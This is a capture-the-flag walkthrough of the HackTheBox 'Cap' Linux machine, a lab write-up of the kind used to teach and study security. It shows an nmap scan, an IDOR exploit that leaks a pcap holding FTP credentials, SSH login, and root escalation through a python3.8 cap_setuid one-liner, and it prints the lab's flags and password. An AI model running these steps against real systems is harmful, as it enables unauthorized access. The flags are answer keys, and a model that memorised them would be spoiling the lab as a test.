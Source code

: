 
<p align="center">
  <img src="./screenshots/cap_logo.png" alt="cap_logo"/>
</p>

---

- 🎯 **Target:** HackTheBox - Cap Linux
- 🧑‍💻 **Author:** `sonyahack1`
- 📅 **Date:** 04.03.2025
- 📊 **Difficulty:** Easy
- 📁 **Category:** Web vulnerabilities; Privilege Escalation
- 💻 **Platform:** Linux

---

## Table of Contents

- [Summary](#summary)
- [Reconnaissance](#%EF%B8%8F--reconnaissance)
- [Entry Point](#-entry-point)
- [Initial Access](#-initial-access)
- [Vertical Privilege Escalation](#%EF%B8%8F-vertical-privilege-escalation)
- [Capabilities exploitation](#-capabilities-exploitation)
- [Conclusion](#-conclusion)

---

## Summary

| Stage         | Info                               	    |
|---------------|-------------------------------------------|
|   User Flag   | `flag{15782241f14c7bf2aa620b67fa9a4115}`  |
|   Root Flag   | `flag{fc5860b0afc49545302d736baf191603}`  |
|  Credentials  | `nathan:Buck3tH4TF0RM3!`                  |
|   Technique   | Capabilities-based Privilege Escalation   |

---

> add the machine's IP address to /etc/hosts:

```bash

echo '10.10.10.245 cap.htb' | sudo tee -a /etc/hosts

```

---
## 🕵️  Reconnaissance

> I scan the target for open ports and services:

```bash

sudo nmap -sVC -p- -vv -T5 cap.htb -oN tcp_scan_cap

```

> Result:

```bash

21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Gunicorn

```

> From the scan results I see three open ports:

- `21` - `ftp`
- `80` - `web`
- `22` - `ssh`

> Open the web application in the browser:

![net_dashboard](./screenshots/net_dashboard.png)

> I see a dashboard for managing network data for user `nathan`:

## 🚪 Entry Point

> I go to the `security snapshot` section:

![snapshot](./screenshots/snapshot.png)

> I see a panel from which I can download a ready `.pcap` file with captured traffic of user `nathan`:

![snapshot_pcap](./screenshots/snapshot_pcap.png)

> The file can be downloaded and opened in `wireshark` to analyze the intercepted traffic:

![pcap_2](./screenshots/pcap_2.png)

> There is no useful information in the intercepted traffic.

> The address of the current panel page from which I downloaded the `.pcap` file has the following url - `http://cap.htb/data/4`
> The `4` parameter clearly points to some scanning ID for the current user `nathan`.

> I try to access other scanning results by replacing the ID, for example, with `0`:

![pcap_0](./screenshots/pcap_0.png)

> This `.pcap` file already contains interesting information intercepted in the `ftp` protocol.
> I got the user credentials - `nathan`:`Buck3tH4TF0RM3!`

---

**Note:** This type of vulnerability is called `IDOR (Insecure Direct Object References)`. This is a vulnerability in which a hacker has the ability to access objects (files,
accounts, data, orders, etc.) by changing identifiers (ID) directly in requests without proper access rights verification. That is, the `IDOR` vulnerability itself is an
`insecure direct object reference`. If there is no authorization check on the server - that is, the server does not check whether this is my data, then I get access to someone else's
information. In this case, to someone else's traffic scanning file that contains sensitive data.

---

## 🔓 Initial Access

> I use the received credentials of the user `nathan` and try to log in via `ssh` to the system:

```bash

ssh nathan@cap.htb

```
> Result:

![nathan_ssh](./screenshots/nathan_ssh.png)

> I get first flag:

```bash

nathan@cap:~$ cat user.txt

15782241f14c7bf2aa620b67fa9a4115

nathan@cap:~$

```
> user flag - `15782241f14c7bf2aa620b67fa9a4115`

---
## 🧍⬆️🧑‍💼 Vertical Privilege Escalation

> Let's list the executable files for which `POSIX capabilities` are installed:

```bash

nathan@cap:~$ getcap -r / 2>/dev/null

/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

nathan@cap:~$

```
> Ok, I see the executable `python3.8` with `cap_setuid+eip` capabilities set. This is a potential vector for privilege escalation
> since such `cap_setuid` permission allows a local user to change the `UID` of the process and set it to, for example, `0` - that is, `root`.
> `Python3.8` is an interpreted language and setting such `capabilities` is a serious error for executables.

---
### 🔑 Capabilities exploitation

> Using this feature we simply call `setuid(0)` inside the python script and change our own `uid` to `0`:

```bash

/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'

```
> Result:

```bash

root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
root@cap:~#

```
> get root flag:

```bash

root@cap:~# cd /root
root@cap:/root# ls -lah
total 36K
drwx------  6 root root 4.0K Jul 13 12:06 .
drwxr-xr-x 20 root root 4.0K Jun  1  2021 ..
lrwxrwxrwx  1 root root    9 May 15  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3.1K Dec  5  2019 .bashrc
drwxr-xr-x  3 root root 4.0K May 23  2021 .cache
drwxr-xr-x  3 root root 4.0K May 23  2021 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4.0K Jul 13 17:37 .ssh
lrwxrwxrwx  1 root root    9 May 27  2021 .viminfo -> /dev/null
-r--------  1 root root   33 Jul 13 12:06 root.txt
drwxr-xr-x  3 root root 4.0K May 23  2021 snap
root@cap:/root# cat root.txt
fc5860b0afc49545302d736baf191603
root@cap:/root#

```
> root flag - `fc5860b0afc49545302d736baf191603`

---
## 🧠 Conclusion

> During the machine walkthrough, the web vulnerability `IDOR` was detected in the control panel in the `security snapshot` section. By changing the scan ID from `4` to `0`, access was gained to
> someone else's `.pcap` scan file, in which the user credentials of `nathan` were found, allowing initial access to the system via `ssh`. After running `enumeration`, the executable file
> `python3.8` was found, for which insecure capabilities `cap_setuid` were set, allowing the current user's `uid` to be changed to `0`, thereby gaining access to the shell with `root` privileges.

<p align="center">
  <img src="./screenshots/solved_machine.png" alt="solved_mschine"/>
</p>
